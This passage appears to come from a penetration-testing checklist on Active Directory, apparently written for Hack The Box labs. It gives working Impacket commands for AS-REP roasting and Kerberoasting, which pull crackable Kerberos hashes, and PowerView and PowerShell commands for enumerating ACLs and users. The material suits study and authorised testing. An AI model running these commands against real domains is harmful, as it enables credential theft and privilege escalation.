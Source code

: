 ### Impacket

* [ ] GetNPUsers - This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' for asrep roasting.
  * [ ] `GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat`
* [ ] GetUserSPN - For kerberoasting as it Queries target domain for SPNs that are running under a user account
  * [ ] List SPN accounts`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend` add `-request`to get in hashcat format or `-request-user` to get only for the user

### ACL(Access Control List)

#### PowerView

Suppose we have a single user and want to enumerate ACL from there. In these examples the user is wley

```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
```

Now to get ACL:

```
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../.gitbook/assets/Checklist-2.png" alt=""><figcaption></figcaption></figure>

#### Without PowerView

* To get all users list

```
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
